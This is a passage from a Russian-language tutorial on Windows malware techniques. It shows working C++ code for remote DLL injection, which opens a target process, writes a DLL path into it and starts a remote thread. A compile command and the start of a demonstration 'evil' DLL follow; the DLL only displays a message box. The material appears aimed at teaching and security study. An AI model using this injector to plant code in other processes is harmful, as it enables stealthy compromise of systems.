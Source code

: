```cpp
    printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, 
  NULL, 
  0, (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Скомпилируем наш `hack2.cpp`:
```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe 
-mconsole -I/usr/share/mingw-w64/include/ -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

![compile injector](./images/9/2021-09-30_03-04.png){width="80%"}

"Зловредная" DLL остается той же:    
```cpp
/*
evil.cpp
простая DLL для DLL-инъекции в процесс
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
```